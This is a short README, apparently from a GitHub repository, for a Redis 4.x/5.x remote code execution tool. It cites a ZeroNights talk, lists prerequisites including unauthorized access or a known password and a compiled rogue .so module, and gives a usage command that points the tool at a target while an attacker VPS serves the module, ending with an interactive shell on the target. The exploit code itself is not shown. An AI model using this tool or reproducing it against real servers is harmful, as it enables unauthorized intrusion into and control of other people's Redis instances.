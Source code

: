 ## Redis 4.x/Redis 5.x RCE EXP
tech reference: [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

test passed by Redis 5.0.9.

## Prepare:
* Redis 4.x/5.x unauthorized access or you know its auth password.
* your PC and target Redis can comm with each other.
* compile `.so` module, reference: https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

## Usage:

```bash
python3 redis-rogue-server.py --rhost <target address> [--rport <target port>] --lhost <vps address> [--lport <vps port>] [--so <.so filename>] [--rpasswd <redis auth>]
```

Finally, you will get a interactive shell.